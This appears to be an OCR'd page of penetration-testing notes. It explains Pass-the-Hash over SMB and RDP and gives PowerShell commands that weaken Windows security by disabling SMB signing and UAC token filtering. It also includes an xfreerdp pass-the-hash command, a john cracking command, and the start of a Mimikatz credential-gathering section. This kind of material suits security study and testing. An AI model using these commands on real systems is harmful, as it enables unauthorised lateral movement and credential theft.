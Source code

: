 

 **Correct Handling of Access Denied (Command=117)***
 
>When trying to use Pass-the-Hash for SMB using user in administrator group and encountering access issues with the error message similar to **"command=117"**, this is typically related to SMB security settings that require a certain level of signing or prevent privileged access over the network.

 **Solution: Modifying the Required Registry Settings**

To resolve this, you need to modify two key registry values to allow the administrative hash to work properly over SMB and avoid issues like **Access Denied**.

1. **Registry Key 1: `LocalAccountTokenFilterPolicy`**

   This key allows local administrative users to authenticate over the network without User Account Control (UAC) interference.

   **PowerShell Command:**
   ```powershell
   New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -PropertyType DWord -Force
   ```

2. **Registry Key 2: `RequireSecuritySignature`**

   This setting forces SMB to use message signing, which can prevent certain operations, like Pass-the-Hash attacks, if enabled. Disabling it can help overcome the "Access Denied" issue.

   You need to create a new `DWORD (32-bit)` value named `RequireSecuritySignature` and set it to `0` under the `LanmanServer` settings.

   **PowerShell Command:**
   ```powershell
   New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" -Name "RequireSecuritySignature" -Value 0 -PropertyType DWord -Force
   ```

#### pass the hash attack over RDP 
```bash
xfreerdp /u:admin /d:foocorp /pth:<NTLM_HASH> /v:172.16.2.119
```
>uses the NTLM hash to authenticate the user over RDP (Remote Desktop Protocol) without needing the clear-text password.

### cracking the hash

- After dumping hashes, attempt to crack them to retrieve passwords for active services.
- Password cracking isn't covered in this section, but will be discussed in-depth in the **System Security** section. `john --format=NT hashes.txt`

---

### Using Mimikatz to Gather Credentials 

- **Ensure 64-bit process for Mimikatz**: For Mimikatz to work fully, it must run in a 64-bit process. Verify your current Meterpreter session’s architecture with the command:

  ```
  meterpreter > sysinfo
  ```
